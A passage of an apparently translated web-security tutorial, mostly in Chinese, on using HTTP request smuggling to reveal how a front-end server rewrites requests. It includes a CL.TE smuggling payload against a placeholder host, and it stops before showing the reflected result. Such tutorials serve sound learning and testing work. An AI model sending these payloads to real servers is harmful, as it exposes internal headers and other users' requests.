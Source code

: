 #### Revealing front-end request rewriting

前端服务器在将请求转发到后端服务器之前**对请求执行一些重写**，通常是通过**添加一些额外的请求头**。例如：

- **终止TLS连接**并添加一些描述所用协议和密码的头文件；
- 添加包含用户IP地址的`X-Forwarded-For`头；

- 基于用户的会话令牌**确定用户的ID**，并添加标识该用户的报头

- 添加一些对其他攻击感兴趣的敏感信息。


解决方案：

- 查找将请求参数的值反映到应用程序响应中的POST请求。


- 无序排列参数，使**反射的参数最后出现**在消息正文中。


- 将此请求走私到后端服务器，**然后直接发送一个普通请求**，表示希望显示该请求的重写表单。


假设应用程序具有反映电子邮件参数值的登录函数：

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

This results in a response containing the following:

```html
<input id="email" value="wiener@normal-user.net" type="text">
```

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

It will then reflect this value back in the response to the second request:
